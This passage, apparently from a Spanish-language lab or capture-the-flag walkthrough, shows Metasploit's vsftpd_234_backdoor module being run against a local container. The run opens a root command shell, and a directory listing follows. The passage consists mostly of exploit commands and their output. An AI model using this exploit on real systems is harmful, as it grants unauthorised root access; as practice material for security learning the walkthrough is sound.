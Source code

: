 ```bash
Exploit target:                                                                                                                                                                                                                             
                                                                                                                                                                                                                                            
   Id  Name                                                                                                                                                                                                                                 
   --  ----                                                                                                                                                                                                                                 
   0   Automatic                                                                                                                                                                                                                            
                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                            
View the full module info with the info, or info -d command.   
```
Una vez esta todo configurado pasaremos a ejecutar el exploit.

```bash

#Arrancamos el exploit

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run                                                                                                                                                                                            
                                                                                                                                                                                                                                            
[*] 172.17.0.2:21 - Banner: 220 (vsFTPd 2.3.4)                                                                                                                                                                                              
[*] 172.17.0.2:21 - USER: 331 Please specify the password.                                                                                                                                                                                  
[+] 172.17.0.2:21 - Backdoor service has been spawned, handling...                                                                                                                                                                          
[+] 172.17.0.2:21 - UID: uid=0(root) gid=0(root) groups=0(root)                                                                                                                                                                             
[*] Found shell.                                                                                                                                                                    
[*] Command shell session 1 opened (172.17.0.1:38279 -> 172.17.0.2:6200) at 2025-01-27 23:44:52 +0100

#Tenemos la shell capturada                                                                                                                                     
ls
AUDIT
BENCHMARKS
BUGS
COPYING
COPYRIGHT
Changelog
EXAMPLE
FAQ
INSTALL
LICENSE
Makefile
README
README.security
README.ssl
REFS
REWARD
```